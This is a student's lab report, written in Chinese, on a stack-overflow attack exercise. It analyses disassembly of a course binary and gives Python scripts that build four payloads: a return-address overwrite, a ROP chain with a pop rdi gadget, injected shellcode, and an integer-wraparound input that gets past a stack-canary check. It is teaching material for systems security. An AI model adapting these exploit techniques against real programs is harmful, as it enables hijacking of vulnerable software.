




# 栈溢出攻击实验

姓名：林瞻涵
学号：2024201528

## 题目解决思路

### Problem 1:

#### **分析**
    首先使用objdump获取反汇编代码。
    观察main函数，发现func函数是我们的目标函数。
    查看func函数的汇编代码：
```asm    
401232 <func>:
...
401246:       48 8d 45 f8             lea    -0x8(%rbp),%rax
401250:       e8 5b fe ff ff          call   4010b0 <strcpy@plt>
```

    这里调用了不安全的strcpy函数，且目标缓冲区地址由 lea -0x8(%rbp),%rax
    给出。这意味着缓冲区起始位置距离栈底指针%rbp为8字节。
调用时，栈布局如下：

```text
High Address
+----------------------+  <-- (rbp + 0x8) Return Address (target)
|    Return Address    |
+----------------------+  <-- (rbp) Saved RBP
|      Saved RBP       |  8 bytes
+----------------------+  <-- (rbp - 0x8) Buffer Start
|       Buffer         |  8 bytes
+----------------------+
Low Address
```
    因此，从 buffer 起始处到 Return Address 的偏移量 = Buffer大小(8) + Saved RBP大小(8) = 16
    在汇编中找到 func1 函数，其入口地址为 0x401216，即为我们需要覆盖的返回地址

#### **解决方案**
构造payload如下：
```python
import struct

target = 0x401216
padding = b'0' * 16

ret_addr = struct.pack('<Q', target)
payload = padding + ret_addr

with open("ans1.txt", "wb") as f:
    f.write(payload)

```

#### **结果**


### Problem 2:

#### **分析**：
通过objdump分析 `func` 函数（地址 `0x401290`），发现其内部调用了 `memcpy`

```asm
4012a4: 48 8d 45 f8          lea    -0x8(%rbp),%rax
4012b3: e8 38 fe ff ff       call   4010f0 <memcpy@plt>
```

`memcpy` 写入了 `0x38` (56) 字节的数据到 `rbp-0x8` 开始的缓冲区，但栈空间仅分配了少量字节。
计算偏移量：缓冲区位于 `rbp-0x8`，返回地址位于 `rbp+0x8`。
Padding 长度 = Buffer(8) + Saved RBP(8) = 16 
目标函数是 `func2` (地址 `0x401216`)，查看其汇编代码：

```asm
401222: 89 7d fc             mov    %edi,-0x4(%rbp)
401225: 81 7d fc f8 03 00 00 cmpl   $0x3f8,-0x4(%rbp)
```
`func2` 检查传入的第一个参数是否为 `0x3f8`。在 x86-64 调用约定中，第一个参数通过 `%rdi` 寄存器传递。因此，在跳转到 `func2` 之前，我们需要将寄存器 `%rdi` 的值设置为 `0x3f8`,但是本题开启了NX保护，不能直接修改`%rdi`的值，因此需要利用ROP

在汇编中发现辅助函数 `pop_rdi` (地址 `0x4012bb`)，其中包含可利用的片段：
 ```asm
4012c7: 5f                   pop    %rdi
4012c8: c3                   ret
 ```
则Gadget 地址确定为 `0x4012c7`,栈结构即为：
`Padding(16B)` + `Gadget地址(pop rdi)` + `参数值(0x3f8)` + `目标函数地址(func2)`

生成payload：
```python
import struct
padding = b'0' * 16
pop_rdi_addr = 0x4012c7
arg= 0x3f8
func2_addr = 0x401216

payload = padding + struct.pack('<Q', pop_rdi_addr) + struct.pack('<Q', arg) + struct.pack('<Q', func2_addr) 

with open("ans2.txt", "wb") as f:
        f.write(payload)

```

#### **结果**


### Problem 3:

#### **分析**：
`func` 函数中 `memcpy` 向栈上写入了 64 字节数据，但目标缓冲区（`rbp-0x20`）仅有 32 字节。(又是你memcpy)
计算覆盖返回地址的偏移量：`Buffer (32)` + `Saved RBP (8)` = 40 。
我们不难发现题目提供了一个特殊的函数 `jmp_xs` (`0x401334`)，它利用全局变量 `saved_rsp` 进行跳转。
    *   `func` 入口处：`mov %rsp, 0x21a1(%rip)` 保存了当时的栈顶（此时栈顶为 `rbp-0x30`）。
    *   `jmp_xs` 逻辑：读取 `saved_rsp`，加 `0x10`，然后跳转。
    *   跳转目标为`(rbp - 0x30) + 0x10` = `rbp - 0x20`，正好是缓冲区的起始位置。这意味着，程序执行流被劫持后，会跳回到我们 Payload 的最开头。由于跳转目标是缓冲区开头，我们必须将 Shellcode 放置在 Payload 的最前面，而不是返回地址之后，即`[Shellcode]` + `[Padding]` + `[RetAddr (覆盖为 jmp_xs)]`。

我们的目标是调用 `func1(114)`。`func1` 地址为 `0x401216`，参数 `114` (`0x72`) 需存入 `%rdi`，据此不难得到：
```asm
mov rdi, 0x72       ; 参数赋值
mov rax, 0x401216   ; 目标函数地址
jmp rax             ; 跳转执行 (使用 jmp 避免栈对齐问题)
```

生成payload:
```python
import struct

jmp_xs_addr = 0x401334
ret_addr = struct.pack('<Q', jmp_xs_addr)

shellcode = b'\x48\xc7\xc7\x72\x00\x00\x00' # mov rdi, 0x72
shellcode += b'\x48\xc7\xc0\x16\x12\x40\x00' # mov rax, 0x401216 (func1 Address)
shellcode += b'\xff\xe0' # jmp rax

len = 40 - len(shellcode)
padding = b'0' * len
payload = shellcode + padding + ret_addr 

with open("ans3.txt", "wb") as f:
    f.write(payload)


```

#### **结果**：


### Problem 4: 
#### **分析**：
**本题不需要构造payload**

查看 `func` 函数的汇编代码，我们不难发现 Canary 的设置与检查过程。

*   Canary 的设置：
    在 `func` 函数的开头部分：
    ```asm
    136c: 64 48 8b 04 25 28 00 mov    %fs:0x28,%rax   ; [SET] 从 TLS (Thread Local Storage) 获取随机值
    1373: 00 00 
    1375: 48 89 45 f8          mov    %rax,-0x8(%rbp) ; [STORE] 将该值存入栈中 rbp-0x8 的位置
    ```
    程序从 `%fs:0x28` 寄存器地址处读取一个随机生成的 8 字节数值（即 Canary/Cookie），并将其放置在栈帧的 `rbp-0x8` 处。这个位置位于局部变量和 Saved RBP 之间。

*   Canary 的检查：
    在 `func` 函数准备返回前：
    ```asm
    140a: 48 8b 45 f8          mov    -0x8(%rbp),%rax ; [LOAD] 从栈中取出 Canary 值
    140e: 64 48 2b 04 25 28 00 sub    %fs:0x28,%rax   ; [CHECK] 再次读取 %fs:0x28 并与栈上的值相减
    1415: 00 00 
    1417: 74 05                je     141e <func+0xc1>; [PASS] 结果为0(相等)则跳转，正常返回
    1419: e8 b2 fc ff ff       call   10d0 <__stack_chk_fail@plt> ; [FAIL] 不相等则报错并终止
    ```
    在函数返回前，程序检查栈上 `rbp-0x8` 处的值是否被修改。如果我们试图通过栈溢出覆盖返回地址（位于 `rbp+0x8`），势必会先覆盖掉位于中间的 Canary。一旦比对失败，程序调用 `__stack_chk_fail` 立即崩溃，从而阻止了控制流劫持。
进入func调用，问了我们的名字和喜不喜欢ICS后，程序让我们给他一些原石。我们的目标是调用func1，看汇编：
```asm
    137b:	c7 45 f0 fe ff ff ff 	movl   $0xfffffffe,-0x10(%rbp)
    1382:	8b 45 dc             	mov    -0x24(%rbp),%eax
    1385:	89 45 e8             	mov    %eax,-0x18(%rbp)
    1388:	8b 45 e8             	mov    -0x18(%rbp),%eax
    138b:	89 45 f4             	mov    %eax,-0xc(%rbp)
    138e:	8b 45 e8             	mov    -0x18(%rbp),%eax
    1391:	89 c6                	mov    %eax,%esi
    1393:	48 8d 05 91 0c 00 00 	lea    0xc91(%rip),%rax        # 202b <_IO_stdin_used+0x2b>
    139a:	48 89 c7             	mov    %rax,%rdi
    139d:	b8 00 00 00 00       	mov    $0x0,%eax
    13a2:	e8 39 fd ff ff       	call   10e0 <printf@plt>
    13a7:	8b 45 e8             	mov    -0x18(%rbp),%eax
    13aa:	3b 45 f0             	cmp    -0x10(%rbp),%eax
    13ad:	73 11                	jae    13c0 <func+0x63>
    13af:	48 8d 05 87 0c 00 00 	lea    0xc87(%rip),%rax        # 203d <_IO_stdin_used+0x3d>
    13b6:	48 89 c7             	mov    %rax,%rdi
    13b9:	e8 f2 fc ff ff       	call   10b0 <puts@plt>
    13be:	eb 4a                	jmp    140a <func+0xad>
    13c0:	c7 45 ec 00 00 00 00 	movl   $0x0,-0x14(%rbp)
    13c7:	eb 08                	jmp    13d1 <func+0x74>
    13c9:	83 6d e8 01          	subl   $0x1,-0x18(%rbp)
    13cd:	83 45 ec 01          	addl   $0x1,-0x14(%rbp)
    13d1:	8b 45 ec             	mov    -0x14(%rbp),%eax
    13d4:	3b 45 f0             	cmp    -0x10(%rbp),%eax
    13d7:	72 f0                	jb     13c9 <func+0x6c>
    13d9:	83 7d e8 01          	cmpl   $0x1,-0x18(%rbp)
    13dd:	75 06                	jne    13e5 <func+0x88>
    13df:	83 7d f4 ff          	cmpl   $0xffffffff,-0xc(%rbp)
    13e3:	74 11                	je     13f6 <func+0x99>
    13e5:	48 8d 05 6b 0c 00 00 	lea    0xc6b(%rip),%rax        # 2057 <_IO_stdin_used+0x57>
    13ec:	48 89 c7             	mov    %rax,%rdi
    13ef:	e8 bc fc ff ff       	call   10b0 <puts@plt>
    13f4:	eb 14                	jmp    140a <func+0xad>
    13f6:	b8 00 00 00 00       	mov    $0x0,%eax
    13fb:	e8 1c ff ff ff       	call   131c <func1>
    1400:	bf 00 00 00 00       	mov    $0x0,%edi
    1405:	e8 f6 fc ff ff       	call   1100 <exit@plt>
    140a:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    140e:	64 48 2b 04 25 28 00 	sub    %fs:0x28,%rax
    1415:	00 00 
    1417:	74 05                	je     141e <func+0xc1>
    1419:	e8 b2 fc ff ff       	call   10d0 <__stack_chk_fail@plt>
    141e:	c9                   	leave
    ...
```
通过阅读汇编指令对栈内存的读写操作，可以还原出如下 C 语言层面的变量布局：
*   Input (`rbp-0x24`): 保存 `scanf` 读入的原始整数。
*   Limit (`rbp-0x10`): 硬编码的循环边界值，初始化为 `0xfffffffe`。
*   Var_A (`rbp-0x18`): 变量 A，初始化为 Input。
*   Var_B (`rbp-0xc`): 变量 B，初始化为 Input。
*   Counter (`rbp-0x14`): 循环计数器。

当我们输入 `-1`（即十六进制 `0xffffffff`）时，程序执行如下：
首先将 `Var_A` 和 `Var_B` 都初始化为输入值 `-1` (`0xffffffff`)。
随后，程序使用 `jae`指令将 `Var_A` 与 `Limit` (`0xfffffffe`) 进行比较。
由于作为无符号数时，`0xffffffff > 0xfffffffe`，比较条件成立。程序因此跳转进入了一个特定的代码块（循环逻辑）。
进入跳转后的代码块，程序初始化计数器为 0，随即开启了一个庞大的循环。循环的终止条件是计数器小于 `Limit` (`0xfffffffe`)。
这意味着循环体将被执行 `4,294,967,294` 次，而在循环体内，每一次都让 `Var_A` 减去1(`subl $0x1`),最终使得A的值为(-1) - (signed)(-2) = 0x1。这样，调用func1的两个检查就都被满足了，攻击成功。
(所以还倒欠一块原石是吧？)
#### **结果**：


## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
